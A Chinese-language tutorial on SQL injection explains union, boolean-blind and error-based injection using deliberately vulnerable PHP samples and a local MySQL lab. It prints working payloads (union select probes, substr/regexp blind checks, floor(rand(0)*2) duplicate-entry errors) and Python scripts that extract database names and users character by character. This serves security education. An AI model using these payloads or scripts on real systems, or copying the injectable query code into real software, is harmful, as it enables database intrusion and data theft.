

# SQL注入

## SQL注入

所谓SQL注入，就是通过把SQL命令插入到Web[表单](https://baike.baidu.com/item/%E8%A1%A8%E5%8D%95/5380322)提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。 \[1\] 比如先前的很多影视网站泄露VIP会员密码大多就是通过WEB表单递交查询字符暴出的，这类表单特别容易受到[SQL注入式攻击](https://baike.baidu.com/item/SQL%E6%B3%A8%E5%85%A5%E5%BC%8F%E6%94%BB%E5%87%BB)。

### SQL注入原理

SQL注入产生需要满足两个条件：

1. 参数可控：前端传给后端内容用户是可以控制的。
2. 参数带入数据库查询：传入的参数拼接到SQL语句，并且带入数据库查询。

### MySQL相关知识点

在MySQL5.0版本之后，MySQL默认在数据库存放了一个`information_schema`的数据库，其中有如下三个表需要大家了解。

#### SCHEMATA

`SCHEMATA`表存储了用户创建的所有数据库的库名，我们可以通过查询展示这一过程。

[`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``* FROM `SCHEMATA```


记录数据库库名的字段为`SCHEMA_NAME`

#### TABLES

`TABLES` 存储了用户创建的所有数据库的库名和表名，我们可以通过查询展示这一过程。

[`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``* FROM `TABLES```


其中，`TABLE_SCHEMA` 记录了数据库的库名，`TABLE_NAME` 记录了表名。

 COLUMNS

`COLUMNS` 存储了用户创建的所有数据库的库名、表名和字段名，我们可以通过查询展示这一过程。

[`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``* FROM `COLUMNS```


其中，`TABLE_SCHEMA` 记录了数据库的库名，`TABLE_NAME` 记录了数据库的表名，`COLUMN_NAME` 记录了数据库的字段名。

#### MySQL查询语句

`SELECT 要查询的字段名 FROM 库名.表名 WHERE 已知条件1的字段名='已知条件1的值' AND 已知条件2的字段名='已知条件2的值'` 

#### Limit

`limit` 使用格式为`limit m,n` 其中，`m` 是记录开始的位置，从`0` 开始，表示第一条记录，`n` 是取`n` 条记录，例如，`limit 0,1` 表示从第一条记录开始，取一条记录。


#### 常用函数

| 函数名 | 备注 |
| :--- | :--- |
| database\(\) | 当前网站使用的数据库 |
| version\(\) | 当前MySQL的版本 |
| user\(\) | 当前MySQL的用户 |

#### 注释符

MySQL中，常见的注释符有`#` 或者`--`  \(注意空格）或者`/**/` 。

#### 内联注释

内联注释的形式：`/*!code*/` ，内联注释可以用于整个SQL语句，用来执行我们的SQL语句。

[`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``* FROM `SCHEMATA` /*!UNION*/ /*!SELECT*/ 1,``[`USER`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/information-functions.html#function_user)`(),3,4,5`


### 注入方式

#### Union注入

如下代码：

```text
if (mysqli_connect_errno()){	echo "连接失败: " . mysqli_connect_error();}$id = $_GET['id'];$result = mysqli_query($con,"select * from user where `id`=".$id);while($row = mysqli_fetch_array($result)){	echo $row['USERNAME'] . " " . $row['PASSWORD'];	echo "<br>";}?>
```

这里是一个正常的查询操作，但是由于没有进行任何的过滤，将参数直接拼接到了SQL语句中，语句也未进行预处理，并且`$_GET` 参数攻击者可控，因此攻击者可以利用SQL注入漏洞对系统发起攻击。

正常访问：


在`id=1`后面添加`'` 


这里说明有可能存在SQL注入，为了进一步判别是否存在漏洞，我们要进行验证是否可以进行逻辑运算，比如我们访问`id=1 and 1=1`  ，由于`1=1` 为真，因此应返回与`id=1` 相同的页面，同样的，`id=1 and 1=2` 应返回不同的页面。


因此可以判断网站存在SQL注入漏洞，我们可以通过以下过程，通过漏洞模拟攻击者获得数据库相关信息。

1. 判断数据表字段数量`order by num` 
2. 判断可输出字段`union  select 1,2,...,num`
3. 替换可显示字段，输出我们想执行操作


说明一共有3个字段，接下来我们尝试哪个字段是可以输出的



说明位置`2` 和`3` 是可以输出的，替换我们想执行的操作，以`user()` 和`database()` 举例


可以得出当前用户是`root`用户，数据表为`users` 表，我们也可以通过控制`id` 参数，给其设定一个不存在的值，让其返回`union select` 的值


#### Boolean注入

如下代码：

```text
<?php$con=mysqli_connect("localhost","root","root","users");// 检测连接if (mysqli_connect_errno()){	echo "连接失败: " . mysqli_connect_error();}$id = $_GET['id'];if (preg_match("/union|sleep|benchmark/i", $id)) {	exit("no");}$result = mysqli_query($con,"select * from user where `id`='".$id."'");$row = mysqli_fetch_array($result);if ($row) {	exit("yes");}else{	exit("no");}?>
```

我们可以看到代码中还是通过`get` 方式获取`id` 的值，并且拼接到SQL语句中，但是前面做了一个正则匹配，如果检测到`union` 、`sleep` 、`benchmark` 就退出并返回`no` ，而且使用了`i` 修正符，因此会不区分大小写去文本中匹配 php，这意味着我们无法使用联合注入以及延时注入，并且是无法用大小写绕过的，后面的判断条件是如果SQL执行成功就会返回`yes` ，否则返回`no` ，这里可以判断为典型的boolean注入，我们可以使用如下过程模拟攻击者对系统发起攻击。

1. 通过 `' and length(database())>=num --+` 判断数据库名称长度，由于我们可以看到`id` 参数被`'` 包围，因此我们先闭合前面的单引号，使得后面我们的`payload` 得以正常执行。
2. 通过 `' and substr(database(),1,1)='t' --+` 逐字符判断的方式（不区分大小写）获取数据库名或通过 `' and ord(substr(database(),1,1)) = 115 --+`使用`ASCII` 转换函数`ord` 逐字符判断，这里里`substr` 是截取`database()` 的值，从第`1` 个字符开始，每次只返回`1` 个，这里不要与上面的`limit` 弄混，`limit` 是从`0` 开始排序的。


当我们测试数据库长度大于等于`6` 时，报了`no` ，说明数据库长度为`5` 


当我们测试数据库第一个字符为`u` 时，报了`yes` ，说明数据库库名第一个字母为`u` ，我们可以写一个python脚本，来代替我们实现这一繁琐的过程。

```text
import requestsurl = 'http://127.0.0.1/boolean.php?id=1'for num in range(0,10):	length_check_poc = "' and length(database())>=" + str(num) + " --+"	r = requests.get(url + length_check_poc)	if r.text == 'no':		print('[+]数据库库名长度为： ' + str(num-1))		exit()
```

我们可以看到数据库库名长度为`5` 


```text
import requestsurl = 'http://127.0.0.1/boolean.php?id=1'poc_str = 'abcdefghijklmnopqrstuvwxyz0123456789'for num in range(1,6):	for char in poc_str:		str_check_poc = "' and substr(database(),"+ str(num) +",1)='" + char + "' --+"		r = requests.get(url + str_check_poc)		if r.text == 'yes':			print('[+]数据库库名第'+ str(num) +'个字符为' + char)			break
```

我们可以看到数据库库名每个字符是什么，拼接到一起即数据库库名为`users` 


同样的，如果`substr()` 被禁用了，我们也可以使用`MID()` 或者`LEFT()` 来实现上述过程。

`SELECT MID(database(),1,1);` 


`SELECT left(database(),1);` 


除了上述使用函数的方法之外，其实我们还可以采用`正则匹配` 的方法来进行注入，因为是支持正则表达式的，比如我们可以使用：

`select user() regexp '^[a-z]';`

我们的数据库用户是`root` ，比如这里我们可以用正则表达式逐位判断是否用户名都是由小写字母组成的以及每一位是什么，比如，我们猜解第一位，当我们猜测`正确`时，返回值为`1`：

`select user() regexp '^r[a-z]';`


当我们猜测`不正确`时，返回值为`0` ：

`select user() regexp '^x[a-z]';` 


由此我们就可以逐位猜解每个位置上的字母：

```text
select user() regexp '^r[a-z]';select user() regexp '^ro[a-z]';select user() regexp '^roo[a-z]';select user() regexp '^root[a-z]';...select user() regexp '^root@localhost$';
```

POC：

```text
0' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="test" AND user() REGEXP '^^r' LIMIT 0,1) --+0' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="test" AND user() REGEXP '^^ro' LIMIT 0,1) --+...0' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="test" AND user() REGEXP '^^root@localhost$' LIMIT 0,1) --+
```

同样的，我们可以写成脚本来代替我们进行操作：

```text
import requestsresult_list = []poc_str = 'abcdefghijklmnopqrstuvwxyz0123456789!@#$'while True:	for char in poc_str:		str_check_poc = r"http://127.0.0.1/boolean.php?id=0%27%20and%201=(SELECT%201%20FROM%20information_schema.tables%20WHERE%20TABLE_SCHEMA=%22test%22%20AND%20user()%20REGEXP%20%27^^"+ ''.join(result_list) + char +"%27%20LIMIT%200,1)%20--+"		r = requests.get(str_check_poc)		if r.text == 'yes':			result_list.append(char)			break	if result_list[-1] == '$':		exit(0)	print('当前数据库用户为：' + ''.join(result_list) + '\n')
```


注意：

```text
MSSQL所用的正则表达式并不是标准正则表达式 ，该表达式使用 like关键词default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )该查询语句中，select top 1 是一个组合哦，不要看错了。如果要查询其它的表名，由于不能像mysql哪样用limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前x行里，其实查询的就是第x+1行。例如 查询第二行的表名：default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )表达式的顺序：'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE之所以表达式 news[a-z]查询后返回正确是应为%代表0-n个字符，使用"_"则只能代表一个字符。故确认后续是否还有字符可用如下表达式'news%' TRUE -> 'news_' FALSE同理可以用相同的方法获取字段，值。这里就不再详细描述了。
```

#### 报错注入

如下代码：

```text
<?php$con=mysqli_connect("localhost","root","root","users");// 检测连接if (mysqli_connect_errno()){	echo "连接失败: " . mysqli_connect_error();}$username = $_GET['username'];if($result = mysqli_query($con,"select * from user where `USERNAME`='".$username."'")){	echo "ok";}else{	echo mysqli_error($con);}?>
```

从代码得知，只要是数据库连接正常，SQL语句正常执行，就会返回`ok` ，否则返回数据库连接错误信息，并显示到页面上，所以我们使用以下过程来模拟攻击者攻击的过程。

1. 让数据库执行语句出错，例如加入`'`，导致错误。
2. 利用报错`payload` 来模拟攻击者攻击系统

**Duplicate entry报错：**

这是由于多次查询插入重复键值导致count报错从而在报错信息中带入了敏感信息。

**Payload：**

```text
zhangsan' and(select 1 from (select count(*) ,concat(user(),floor(rand(0)*2))x from test.test group by x)a) --+
```

这其中有一个很奇特的现象就是，我们看到POC中有`rand(0)` ，在经过测试后发现，当数据表中有`1`条数据时，`rand()` 与`rand(0)` 均不报错，在数据表中有`2` 条数据时，`rand()` 随机报错，`rand(0)` 不报错，在数据表中有`3`条及以上数据时，`rand()` 随机报错，`rand(0)` 稳定报错，在探究这个报错原因之前，我们需要了解以下几个函数：

| 函数名 | 作用 |
| :--- | :--- |
| count\(\) | 计算总数 |
| concat\(\) | 连接字符串 |
| floor\(\) | 向下取整 |
| rand\(\) | 随机产生0~1的随机数 |
| rand\(0\) | 伪随机 |

这里主要是探究一下`rand()` 和`rand(0)` 的区别，我们都知道`rand()` 是随机产生一个0~1的随机数，那么`rand(0)` 呢？

我们首先看一下`rand()` ，我们执行如下语句。

[`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``floor(rand()*2) FROM `test```


我们发现在执行多次后，结果符合随机要求，那么我们再看一下`rand(0)` ，执行如下语句。

[`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``floor(rand(0)*2) FROM `test```


我们发现，不论执行多少次，他的序列始终是一个固定值，按照`011011...` 排列，我们可以看到报错内容是`Duplicate entry '15.5.53' for key 'group_key'`，意思是说`group_key`条目重复，需要了解的是当我们使用group by进行分组查询的时候，数据库会生成一张虚拟表，整个过程是这样的，开始查询数据，取数据库数据，然后查看虚拟表是否存在，不存在则插入新记录，存在则`count(*)`字段直接加`1`，在这张虚拟表中，`group by`后面的字段作为主键，MySQL官方有给过提示，就是查询的时候如果使用`rand()`的话，该值会被计算多次，就是第一次是将`group by`后面的字段值到虚拟表中拿去对比前，首先获取`group by`后面的值；第二次是假设`group by`后面的字段的值在虚拟表中不存在，那就需要把它插入到虚拟表中，这里在插入时会进行第二次运算。  
那么我们在看整个过程如下：

查询前，默认建立空的虚拟表如下：

| Title | Title |
| :--- | :--- |
| key | count\(\*\) |
| Content | Content |

取第一次记录的时候，首先执行`floor(rand(0)*2)` ，我们从`rand(0)` 的图中也可以知道，第一次值为`0` ，表中不存在，则继续执行插入操作，在插入操作的时候，进行了第二次运算，同理我们从图中得知，值为`1` ，插入虚表的`key`中，由于是第一条数据，所以`count(*)` 的值也为`1` ，此时第一条信息查询完毕，结果如下。

| key | count\(\*\) |
| :--- | :--- |
| 1 | 1 |

接下来查询第二条记录的时候，再次计算`floor(rand(0)*2)` ，从图中得知，已经进行到了第三次运算，它的值是`1` ，这时候发现数据已经存在，所以不再运算，`count(*)` 的值直接加`1` ，此时结果如下。

| key | count\(\*\) |
| :--- | :--- |
| 1 | 2 |

接下来查询第三条记录，再次计算`floor(rand(0)*2)` ，从图中得知，已经进行到了第四次运算，它的值是`0` ，虚拟表中没有响应的键值，则准备进行插入操作，进行了第五次运算，它的值为`1` ，然而`1` 这个主键已经存在于虚拟表中，由于键值必须唯一，因此导致报错。

从而我们也得知了为什么前面解释的数据量不同，`rand()` 与`rand(0)` 会有不同的反响。由于`rand()` 本身的随机性，因此有几率触发报错，而`rand(0)` 的稳定序列`011011...` 导致其在`3` 条数据以上稳定报错。


在研究明白上面的过程后，我们已经可以得到我们想要的Duplocate entry错误了，接下来就是加入我们的子查询了，我们用`concat()` 拼接，比如我们想要查询数据库的用户，命令如下。

`select count(*) ,concat(user(),floor(rand(0)*2))x from test group by x`  


我们可以看到已经看到想要的内容了，那么是不是直接拼接到后面就行了呢？

```text
SELECT * FROM test WHERE name = 'ddd ' and select count(*) ,concat(user(),floor(rand(0)*2))x from test group by x -- ' 
```

结果是不行的，因为我们在数据库中的代码如上，


我们构建的`select`语句的结果是一个结果表，而`and`需要一个布尔值，也就是`0`或`非零`的值，所以我们需要再嵌套一个查询，由于`select` 的结果是一个结果表，那我们就可再从这个表执行查询，这不过这次select的值是非零数字：

```text
zhangsan' and(select 1 from (select count(*) ,concat(user(),floor(rand(0)*2))x from test.test group by x)a) --+
```

到此我们也就完成了我们的报错注入。

当然我们也发现，这个poc中需要知道数据库相应的表名`test.test` ，那么如果我们不知道关键表名或者关键表名被禁用了怎么办呢？

我们可以使用如下语句来进行注入：

`select count(*) from (select 1 union select null union select !1)a group by concat(version(),floor(rand(0)*2))`


换成POC：

`zhangsan' and(select 1 from (select count(*) from (select 1 union select null union select !1)a group by concat(version(),floor(rand(0)*2)))a) --+`


这里我们首先需要知道如下规则：

| 语句 | 含义 |
| :--- | :--- |
| UNION | 将多个不同的select语句执行的结果合并到一个结果集并返回 |
| SELECT 1; | 直接返回字面量1的值 |
| SELECT null; | 返回null本身的“值”。NULL是mysql中的一个常量，表示“没有值”，不是空字符串或0。 |
| SELECT !1 | 逻辑非，非真即假，mysql中使用数字值1、0代表true和false，可用“SELECT TRUE, FALSE;”验证 |

其次，我们也要清楚，`select` 可以当作运算器，例如：

```text
mysql> select 1+1; //加法+-----+| 1+1 |+-----+|   2 |+-----+mysql> select pow(2,3); //指数运算，2的3次方+----------+| pow(2,3) |+----------+|        8 |+----------+mysql> select !0;  //逻辑非+----+| !0 |+----+|  1 |+----+mysql> select 1 & 1;  //按位与+-------+| 1 & 1 |+-------+|     1 |+-------+mysql> set @a=10,@b=5;  //变量赋值后再运算mysql> select @a+@b;+-------+| @a+@b |+-------+|    15 |+-------+
```

因此语句的最终结果为：

```text
mysql> SELECT 1 UNION SELECT null UNION SELECT !1;+------+| 1    |+------+|    1 || NULL ||    0 |+------+
```

与上同理，正好满足三条的需要，最终多次查询插入重复键值导致count报错从而在报错信息中带入了敏感信息。

如果`rand` 被禁用了，我们可以通过用户变量来报错：

`select min(@a:=1) from information_schema.tables group by concat(version(),@a:=(@a+1)%2);`


这里我们需要注意，由于浏览器会进行`urlencode` ，所以我们语句中的`+` 会被转为`空格` ，会导致我们的语句无法正常的传入数据库，因此我们需要用`%2b` 替换`+` ，因此最终POC如下：

`ddd%20%27%20and%20(select%20min(@a:=1)%20from%20test%20group%20by%20concat(version(),@a:=(@a%2b1)%2))%20--+`


## 参考资料

1. 《Web安全攻防 渗透测试实战指南》
2. 《PHP WEB 安全开发实战》
3. 《SQL注入攻击与防御第2版》
4. [  Mysql报错注入原理分析\(count\(\)、rand\(\)、group by\)](https://www.2cto.com/article/201604/498394.html)

